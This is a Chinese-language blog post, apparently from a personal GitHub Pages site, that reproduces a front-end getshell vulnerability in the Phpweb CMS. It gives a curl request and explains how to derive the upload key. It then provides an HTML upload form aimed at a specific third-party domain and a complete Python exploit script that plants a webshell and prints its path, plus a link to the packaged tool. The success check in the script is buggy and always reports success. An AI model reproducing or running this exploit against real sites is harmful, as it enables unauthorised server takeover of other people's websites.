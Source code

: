 ```yaml
---
title: Phpweb Reception Getshell
published: true
---
```

Phpweb 是一款企业cms，并不开源，但这并不妨碍Hacker们查找漏洞!

# [](#header-1)前言

这篇文章是复现Phpweb前台getshell漏洞,漏洞详细我不讲了,请自行到90SEC(forum.90sec.com)上查看!

本篇文章还会涉及工具的编写(Python)!

漏洞影响文件:/base/post.php /base/appfile.php /base/appplue.php /base/appborder.php

# [](#header-2)复现

1.首先要获取加密前的Md5值，用于文件较检,通过Post提交数据来获取!
```php
curl "http://website/base/post.php" -H "act=appcode"
```
![](https://m4tir.github.io/assets/1.png)
```php
ac34c64cdb405eff881efc5476a64761 ##这个就是初始值
```
2.获取加密后得md5值

然后将初始值md5加密(ac34c64cdb405eff881efc5476a64761 + "a")

得到加密后的MD5值!
```php
e10adc3949ba59abbe56e057f20f883e ##这个就是加密后的md5值(终值)!
```
3.Getsehll
exp:
```php
<html>
<body>
<form action="http://wxzljz.com/base/appfile.php" method="post" enctype="multipart/form-data">
<label for="file">Filename:</label>
<input type="file" name="file" id="file" />
<input type="text" name="t" value="a" />
<input type="text" name="m" value="25a824696cb75a44aabd05a08070789f" />
<input type="text" name="act" value="upload" />
<input type="text" name="r_size" value="14" />
<br />
<input type="submit" name="submit" value="getshell" />
</form>
</body>
</html>
```
![](https://m4tir.github.io/assets/2.png)

然后...Getshell!

![](https://m4tir.github.io/assets/3.png)

当出现OK两个大字时,说明你成功了!!!

上传的shell路径是/effect/source/bg/shell名称.php

![](https://m4tir.github.io/assets/4.png)

# [](#header-3)工具编写
Python exp[Python3]:
```python
# -*- coding: UTF-8 -*- #
import os
import requests
import hashlib

bdlj = os.getcwd()
headers = open(bdlj+"\headers.txt",'r')
headerss = headers.read()
print('\b')

ur = input("请输入目标网址:")
requrl =  ur + '/base/post.php'
reqdata = {"act":"appcode"}
r = requests.post(requrl,data=reqdata)
cz=r.text[2:34]
print ('初值:' + cz)

cz=r.text[2:34]+"a"
m = hashlib.md5()
b = cz.encode(encoding='utf-8')
m.update(b)
zz = m.hexdigest()
print ('终值:' + zz)

infile = open(bdlj + "\datas.txt", "r",encoding='utf-8')
outfile = open(bdlj + "\datah.txt", "w",encoding='utf-8')
for line in infile:
      outfile.write(line.replace('156as1f56safasfasfa', zz))
infile.close()
outfile.close()
datas = open(bdlj+"\datah.txt",'r')
datass = datas.read()

gs = requests.post(ur + '/base/appfile.php',data=datass,headers={'Content-Type':headerss})
gs.encoding = 'utf-8'
print (gs.text)

if {gs.text == "OK"}:
	print ("Getshell成功! Shell:" + ur + "/effect/source/bg/mstir.php")
else:
	print ("Getsehll失败!")
```

整包下载地址:https://m4tir.github.io/assets/Phpweb-Getshell-py.rar

使用请下载整包,否则会缺少协议头和data数据!

使用教程:

![](https://m4tir.github.io/assets/5.png)

END!
